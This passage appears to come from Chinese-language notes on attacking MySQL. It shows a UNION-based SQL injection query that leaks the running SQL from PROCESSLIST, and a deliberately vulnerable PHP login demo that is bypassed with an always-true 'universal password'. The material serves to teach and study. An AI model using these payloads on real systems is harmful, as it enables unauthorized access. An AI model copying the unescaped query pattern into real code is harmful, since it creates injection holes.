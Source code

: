 ```mysql
kali，3306
root@localhost
/var/lib/mysql/，/usr/lib/mysql/plugin/，/tmp，/usr
```

```mysql
# 得到后端执行的sql语句
select * from test.users where id=1 union SELECT (select INFO FROM INFORMATION_SCHEMA.PROCESSLIST WHERE INFO LIKE '%673245283%' LIMIT
 1),2,3;
```

![image-20230528210843123](../../../../images/image-20230528210843123.png)



## Mysql攻击手法

### admin登入

- 万能密码

  ```php
  # 后端代码Demo
  $query = "SELECT * FROM manage WHERE user='$user' and passwd='$passwd'";
  if(mysql_query($query))
  {
      echo "登陆成功";
  }
  ```

  通过布尔运算让where恒为真

  ![image-20230312212035948](../../../../images/image-20230312212035948.png)
